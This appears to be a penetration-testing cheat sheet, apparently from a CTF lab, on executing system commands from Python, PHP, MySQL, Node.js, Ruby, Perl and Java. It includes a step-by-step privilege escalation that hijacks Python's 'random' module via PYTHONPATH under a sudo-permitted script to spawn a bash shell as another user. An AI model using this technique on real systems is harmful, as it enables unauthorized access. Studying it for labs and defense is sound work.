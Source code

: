 #### Python
```
import subprocess
output = subprocess.check_output('whoami', shell=True)
print(output.decode())
```
- execute system commands
- can also use:
```
import os
os.system('whoami')
```

hijacking imported module for priv esc
- user has sudo privs for python script that imports "random" module
- in same directory as script, run:
```
echo "import os" > random.py
```
- creates first line of new file. then:
```
echo 'os.system("/bin/bash")' >> random.py
```
- `cat random.py` should show:
```
import os
os.system("/bin/bash")
```
- then make modifiable:
```
chmod +x random.py
```
- set current directory as pythonpath:
```
export PYTHONPATH=/home/alice:$PYTHONPATH
```
- then run the command that has sudo privs:
```
sudo -u rabbit /usr/bin/python3.6 /home/alice/walrus_and_the_carpenter.py
```
- should create shell as rabbit user
#### Python2 v Python3
- absence of parentheses in print argument indicates script is written in python 2
	- Python 2: print is a statement, so parentheses are optional unless needed for grouping.
	- Python 3: print is a function, so parentheses are required:
		- Ex: `print("Website is up")`
- Using `input()` in Python2 can lead to security vulnerabilities because it evaluates user input as code.
	- Python 2:
		- `input()` function:
			 - Parses the user input as a Python expression using `eval()`
			- Equivalent to `eval(raw_input(prompt))`
			- Dangerous if user input is not trusted, as it can execute arbitrary code.
		- `raw_input()` function:
			- Reads user input as a string without evaluation.
	- Python 3:
		- `input()` function:
			- Reads user input as a string.
			- Equivalent to `raw_input()` in Python 2.
		- `raw_input()` function:
			- Removed in Python 3.
			- If you need to evaluate user input as code (which is generally discouraged), you must explicitly use `eval()`

#### PHP
```
<?php
echo shell_exec('whoami');
```
- can also execute code with `exec()` or `system()`

```
php -a
```
- bash to get an interactive php terminal
#### MySQL
```
SELECT sys_exec('whoami');
```
- only works if lib_mysqludf_sys is installed
	- otherwise, need to escape

#### Node.js (Javascript)
```
const { exec } = require('child_process');

exec('whoami', (error, stdout, stderr) => {
    if (error) {
        console.error(`Error: ${error.message}`);
        return;
    }
    if (stderr) {
        console.error(`Stderr: ${stderr}`);
        return;
    }
    console.log(`Output: ${stdout}`);
});
```
- `child_process` to execute

#### Ruby
```
puts `whoami`
```
- backticks to execute or `system()`:
```
system('whoami')
```

#### Perl
```
system('whoami');
```

#### Java
```
import java.io.*;

public class Main {
    public static void main(String[] args) throws Exception {
        Process process = Runtime.getRuntime().exec("whoami");
        BufferedReader reader = new BufferedReader(new InputStreamReader(process.getInputStream()));
        String line;
        while ((line = reader.readLine()) != null) {
            System.out.println(line);
        }
    }
}
```
- `Runtime.getRuntime().exec()` to execute system commands